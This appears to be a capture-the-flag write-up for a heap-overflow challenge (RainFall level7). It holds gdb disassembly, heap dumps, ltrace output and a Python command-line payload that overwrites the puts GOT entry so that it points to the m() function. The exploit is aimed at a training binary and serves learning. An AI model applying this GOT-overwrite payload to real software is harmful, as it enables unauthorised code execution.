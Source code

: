 Heap exploit


TLDR

```
    malloc1 = malloc(8) // 0x0804a008
    malloc1[0] = 1
    malloc1[1] = malloc(8) // 0x0804a018

    malloc2 = malloc(8) // 0x0804a028
    malloc2[0] = 2
    malloc2[1] = malloc(8) // 0x0804a038

    strcpy(mOne[1], argv[1])
    strcpy(mTwo[1], argv[2])
    
    
    movl $0x1, (%eax)
    The instruction moves the value 0x1 into the memory location pointed to by the %eax.
    (%eax) ==> memory reference.
    
    0x08048531 <+16>:	call   0x80483f0 <malloc@plt>
    0x08048536 <+21>:	mov    %eax,0x1c(%esp)
    0x0804853a <+25>:	mov    0x1c(%esp),%eax
    0x0804853e <+29>:	movl   $0x1,(%eax)         malloc1[0] = 1
    
    0x08048544 <+35>:	movl   $0x8,(%esp)
    0x0804854b <+42>:	call   0x80483f0 <malloc@plt>
    0x08048550 <+47>:	mov    %eax,%edx
    0x08048552 <+49>:	mov    0x1c(%esp),%eax
    0x08048556 <+53>:	mov    %edx,0x4(%eax)       *malloc1 + 4 = malloc1[1] = edx = allcated
    
    
    b *main+161
    
    
```



```
0x080484f4  m
0x08048521  main
```

./level7 $(python -c 'print "A" * 21 + "\x08\x04\x84\xf4"[::-1]') "BBBBBBBB"

```
(gdb) x 0x8049960
0x8049960 <c>:	 ""
  
(gdb) p 0x44
$6 = 68
  
(gdb) x 0x8048703
0x8048703:	 "~~"
```
  
```
(gdb) run "AAAABBBBCCCCDDDD" "ZZZZ1111"

(gdb) x/60wx 0x804a000
  
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x42424242
0x804a020:	0x43434343	0x44444444	0x00000000	0x0804a038
0x804a030:	0x00000000	0x00000011	0x5a5a5a5a	0x31313131

(gdb) p/c 0x5a = 'Z'
 
 argv1 write at the heap pointed by p/x 0x804a010+8 = 0x804a018
 argv2                              0x804a038

confirmed by ltrace

level7@RainFall:~$ ltrace ./level7 AAAAAAAA BBBBBBBB

  strcpy(0x0804a018, "AAAAAAAA")
  strcpy(0x0804a038, "BBBBBBBB")

 ```
  
  ```
   0x080485f7 <+214>:	call   0x8048400 <puts@plt>
  
  (gdb) disass 0x8048400
    Dump of assembler code for function puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
  ```
  
  address of puts `0x8049928` and address of m() function `0x080484f4`
  
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
 Heap befor srcpy 1 
```
"--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038 
```
  Heap after srcpy 1
  ```
  "--------------HEAP------------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
```
after strcpy2
```
(gdb) disass 0x8048400
puts@plt:
   0x08048400 <+0>:	jmp    *0x8049928
   
(gdb) x 0x8049928
0x8049928 <puts@got.plt>:	0x080484f4

(gdb) x 0x080484f4
0x80484f4 <m>:	0x83e58955
```



```
"-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	0x0804a038
0x804a030:	0x00000000	0x00000011	0x42424242	0x00000000
```
  strcpy(0x0804a018, "AAAA")
  strcpy(0x0804a038, "BBBB")
  
  cpy whatever is in av1 into 018
  cpy whatever is in av2 into 038
  
  what we need is smthing like:
  
    strcpy(addr_of_puts, addr_of_m)
  
  address of puts `0x8049928` and address of m() `0x080484f4`
  
  so we need to slide addr of puts to overide the aadr malloced for arv2
  
```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[av2_dest]
0x804a030:	0x00000000	0x00000011	[   av2  ]	0x00000000
```
we want to achieve smthg like
```
0x804a000:	0x00000000	0x00000011	0x00000001	[av1_dest]
0x804a010:	0x00000000	0x00000011	[   av1  ]	0x00000000
0x804a020:	0x00000000	0x00000011	0x00000002	[  puts  ]
0x804a030:	0x00000000	0x00000011	[     m  ]	0x00000000
```
to reach `puts` frm `av1` we need  `4*5 = 20`

payload:

  `( python -c 'print A*20 + puts' ) ( python -c 'print m' )`
  
  `./level7 $(python -c 'print "A" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')`
  
  ```
  "-------HEAP-------"
0x804a000:	0x00000000	0x00000011	0x00000001	0x0804a018
0x804a010:	0x00000000	0x00000011	0x41414141	0x41414141
0x804a020:	0x41414141	0x41414141	0x41414141	0x08049928
0x804a030:	0x00000000	0x00000011	0x00000000	0x00000000
0x804a040:	0x00000000	0x00020fc1	0xfbad240c	0x00000000
```
  
  similar concept
  liveoverflow https://youtu.be/TfJrU95q1J4?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN
